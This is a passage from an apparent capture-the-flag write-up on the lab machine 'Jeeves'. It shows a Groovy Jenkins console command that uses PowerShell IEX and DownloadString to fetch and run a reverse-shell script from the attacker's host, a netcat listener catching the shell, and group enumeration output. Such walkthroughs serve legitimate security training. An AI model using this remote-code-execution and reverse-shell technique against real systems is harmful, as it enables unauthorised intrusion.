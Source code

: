 ```shell
                                 [01]: 10.129.148.24
                                 [02]: fe80::fc96:3192:b7af:5af3
                                 [03]: dead:beef::d198:1281:c2bd:de7d
                                 [04]: dead:beef::fc96:3192:b7af:5af3
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

### 3. Get a shell
Host a powershell reverse shell script, then run a command to retrieve and execute it.
```groovy
String result = """ powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.36/shell.ps1')" """
println result.execute().text
```
Capture the shell in the listener.
```shell
┌──(kali㉿kali)-[10.10.14.36]-[~/Desktop]
└─$ sudo nc -lvnp 443

listening on [any] 443 ...
connect to [10.10.14.36] from (UNKNOWN) [10.129.148.24] 49682

PS C:\Users\Administrator\.jenkins> whoami
jeeves\kohsuke
```

### 4. Enumeration
The shell does not persist for longer than a few minutes, so I just keep rerunning the script continually. Not sure why it kept dying - tried a bunch of different methods with no real success so just persevered.  
Some basic enumeration of privs and groups...
```shell
USER INFORMATION
----------------

User Name      SID                                        
============== ===========================================
jeeves\kohsuke S-1-5-21-2851396806-8246019-2289784878-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
```
